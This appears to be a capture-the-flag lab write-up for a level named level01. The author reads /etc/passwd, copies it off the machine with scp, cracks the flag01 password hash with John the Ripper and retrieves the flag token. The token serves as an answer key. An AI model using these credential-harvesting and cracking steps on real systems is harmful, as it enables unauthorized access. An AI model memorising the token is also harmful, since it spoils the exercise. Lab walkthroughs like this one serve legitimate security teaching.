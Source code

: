 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2001(level01) gid=2001(level01) groups=2001(level01),100(users)
```

This shows that we are operating as the user `level01`.

---

## Step 2: Searching for files

Next, we attempt to find any files owned by the user or `flag01` :

```bash
$ find / -user flag01 2> /dev/null
```

Unfortunately, this search did not yield any useful results.

---

## Step 3: Inspecting the `/etc/passwd` File

We then decide to examine the `/etc/passwd` file to gather more informations:

```bash
$ cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```

The entry for `flag01` contains a hashed password.

---

## Step 4: Cracking the Password

We transfer the `/etc/passwd` file to our local machine to attempt cracking the password:

```bash
$ scp -P 4242 level01@machine_ip:/etc/passwd .
$ john passwd
...
abcdefg          (flag01)
...
```

We successfully cracked the password, which is `abcdefg`.

---

## Step 5: Obtaining the Flag

Finally, we switch to the `flag01` user and retrieve the flag:

```bash
$ su flag01
Password:
abcdefg

$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

---

And there you have it, the token is `f2av5il02puano7naaf6adaaf`.
